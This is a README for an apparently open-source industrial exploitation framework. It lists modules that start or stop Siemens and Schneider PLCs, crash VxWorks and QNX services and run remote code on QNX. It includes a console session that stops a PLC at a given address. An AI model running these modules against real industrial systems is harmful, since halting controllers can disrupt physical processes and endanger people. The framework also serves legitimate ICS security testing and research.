 # Industrial Exploitation Framework
ISF(Industrial Exploitation Framework) is a exploitation framework based on Python, it's similar to metasploit framework. 

ISF is based on open source project [routersploit](https://github.com/reverse-shell/routersploit).

*Read this in other languages: [English](README.md), [简体中文](README.zh-cn.md),*


## ICS Protocol Clients
| Name               | Path                                   | Description            |
| -------------------| ---------------------------------------|:----------------------:|  
| modbus_tcp_client  | icssploit/clients/modbus_tcp_client.py | Modbus-TCP Client      |
| wdb2_client        | icssploit/clients/wdb2_client.py       | WdbRPC Version 2 Client(Vxworks 6.x)|
| s7_client          | icssploit/clients/s7_client.py         | s7comm Client(S7 300/400 PLC)       |


## Exploit Module
| Name                    | Path                                                              | Description                              |
| ------------------------| ------------------------------------------------------------------|:----------------------------------------:|  
| s7_300_400_plc_control  | exploits/plcs/siemens/s7_300_400_plc_control.py                   | S7-300/400 PLC start/stop                |
| vxworks_rpc_dos         | exploits/plcs/vxworks/vxworks_rpc_dos.py                          | Vxworks RPC remote dos（CVE-2015-7599）  |
| quantum_140_plc_control | exploits/plcs/schneider/quantum_140_plc_control.py                | Schneider Quantum 140 series PLC start/stop |
| crash_qnx_inetd_tcp_service | exploits/plcs/qnx/crash_qnx_inetd_tcp_service.py              | QNX Inetd TCP service dos               |
| qconn_remote_exec       | exploits/plcs/qnx/qconn_remote_exec.py                            | QNX qconn remote code execution         |


## Scanner Module
| Name                    | Path                                                              | Description                             |
| ------------------------| ------------------------------------------------------------------|:---------------------------------------:|  
| profinet_dcp_scan       | scanners/profinet_dcp_scan.py                                     | Profinet DCP scanner                    |
| vxworks_6_scan          | scanners/vxworks_6_scan.py                                        | Vxworks 6.x scanner                     |



## ICS Protocols Module (Scapy Module)
These protocol can used in other Fuzzing framework like [Kitty](https://github.com/cisco-sas/kitty) or create your own client.
 
| Name                    | Path                                                              | Description                             |
| ------------------------| ------------------------------------------------------------------|:---------------------------------------:|  
| pn_dcp                  | icssploit/protocols/pn_dcp                                        | Profinet DCP Protocol                   |
| modbus_tcp              | icssploit/protocols/modbus_tcp                                    | Modbus TCP Protocol                     |
| wdbrpc2                 | icssploit/protocols/wdbrpc2                                       | WDB RPC Version 2 Protocol              |
| s7comm                  | icssploit/protocols/s7comm.py                                     | S7comm Protocol                         |



# Install

## Python requirements
* gnureadline (OSX only)
* requests
* paramiko
* beautifulsoup4
* pysnmp
* python-nmap
* scapy [We suggest install scapy manual with this official document](http://scapy.readthedocs.io/en/latest/installation.html)

## Install on Kali
    git clone https://github.com/dark-lbp/isf/
    cd isf
    python isf.py


# Usage
        root@kali:~/Desktop/temp/isf# python isf.py
        
          _____ _____  _____ _____ _____  _      ____ _____ _______
         |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
           | || |    | (___| (___ | |__) | |   | |  | || |    | |
           | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
          _| || |____ ____) |___) | |    | |___| |__| || |_   | |
         |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
        
        
                        ICS Exploitation Framework
        
        Note     : ICSSPOLIT is fork from routersploit at
                   https://github.com/reverse-shell/routersploit
        Dev Team : wenzhe zhu(dark-lbp)
        Version  : 0.1.0
        
        Exploits: 2 Scanners: 0 Creds: 13
        
        ICS Exploits:
            PLC: 2          ICS Switch: 0
            Software: 0
        
        isf >

## Exploits
    isf > use exploits/plcs/
    exploits/plcs/siemens/  exploits/plcs/vxworks/
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    exploits/plcs/siemens/s7_300_400_plc_control
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    isf (S7-300/400 PLC Control) >
    
You can use the tab key for completion.


## Options
### Display module options:
    isf (S7-300/400 PLC Control) > show options
    
    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name        Current settings     Description
       ----        ----------------     -----------
       slot        2                    CPU slot number.
       command     1                    Command 0:start plc, 1:stop plc.
    
    
    isf (S7-300/400 PLC Control) >
    
### Set options
    isf (S7-300/400 PLC Control) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    

## Run module
    isf (S7-300/400 PLC Control) > run
    [*] Running module...
    [+] Target is alive
    [*] Sending packet to target
    [*] Stop plc
    isf (S7-300/400 PLC Control) >
    
## Display information about exploit
    isf (S7-300/400 PLC Control) > show info
    
    Name:
    S7-300/400 PLC Control
    
    Description:
    Use S7comm command to start/stop plc.
    
    Devices:
    -  Siemens S7-300 and S7-400 programmable logic controllers (PLCs)
    
    Authors:
    -  wenzhe zhu <jtrkid[at]gmail.com>
    
    References:
    
    isf (S7-300/400 PLC Control) >
    
# Documents
* [Modbus-TCP Client usage](docs/modbus_tcp_client.en-us.md)
* [WDBRPCV2 Client usage](docs/wdbrpc_v2_client.en-us.md)
* [S7comm Client usage](docs/s7_client.en-us.md)
* [SNMP_bruteforce usage](docs/snmp_bruteforce.en-us.md)
* [Vxworks 6.x Scanner useage](docs/vxworks_6_scan.en-us.md)
* [Profient DCP Scanner useage](docs/profinet_dcp_scan.en-us.md)
* [S7comm PLC Scanner useage](docs/s7comm_scan.en-us.md)
* [Load modules from extra folder](docs/load_extra_modules_from_folder.en-us.md)
* [How to write your own module](docs/how_to_create_module.en-us.md)
